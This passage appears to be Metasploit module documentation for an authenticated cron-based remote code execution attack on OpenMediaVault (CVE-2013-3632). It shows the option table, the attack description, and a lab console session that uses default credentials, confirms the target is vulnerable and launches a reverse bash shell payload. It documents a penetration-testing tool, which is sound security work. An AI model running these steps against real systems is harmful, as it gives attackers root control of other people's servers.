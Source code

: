 ```msf
Check supported:
  Yes

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  PASSWORD   openmediavault   yes       The OpenMediaVault password to authenticate with
  PERSISTENT  false           yes       Keep the payload persistent in Cron. Default value is false, where the payload is removed
  Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
  RPORT      80               yes       The target port (TCP)
  SSL        false            no        Negotiate SSL/TLS for outgoing connections
  SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
  TARGETURI  /                yes       The URI path of the OpenMediaVault web application
  URIPATH                     no        The URI to use for this exploit (default is random)
  USERNAME   admin            yes       The OpenMediaVault username to authenticate with
  VHOST                       no        HTTP server virtual host


  When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to liste
                                      n on all addresses.
  SRVPORT  8080             yes       The local port to listen on.

Payload information:

Description:
  OpenMediaVault allows an authenticated user to create cron jobs as root on the system.
  An attacker can abuse this by sending a POST request via rpc.php to schedule and execute
  a cron entry that runs arbitrary commands as root on the system.
  All OpenMediaVault versions including the latest release 7.3.1-1 are vulnerable.

References:
  https://nvd.nist.gov/vuln/detail/CVE-2013-3632
  https://packetstormsecurity.com/files/178526
  https://attackerkb.com/topics/zl1kmXbAce/cve-2013-3632


View the full module info with the info -d command.
```
### openmediavault_7.0-32-amd64.iso appliance Unix command - cmd/unix/reverse_bash
```msf
msf exploit(unix/webapp/openmediavault_auth_cron_rce) > set rhosts 192.168.201.6
rhosts => 192.168.201.6
msf exploit(unix/webapp/openmediavault_auth_cron_rce) > set lhost 192.168.201.8
lhost => 192.168.201.8
msf exploit(unix/webapp/openmediavault_auth_cron_rce) > check

[*] 192.168.201.6:80 - Authenticating with OpenMediaVault using credentials admin:openmediavault
[*] Trying to detect if target is running a vulnerable version of OpenMediaVault.
[+] 192.168.201.6:80 - The target is vulnerable. Version 7.0.pre.32
msf exploit(unix/webapp/openmediavault_auth_cron_rce) > exploit
```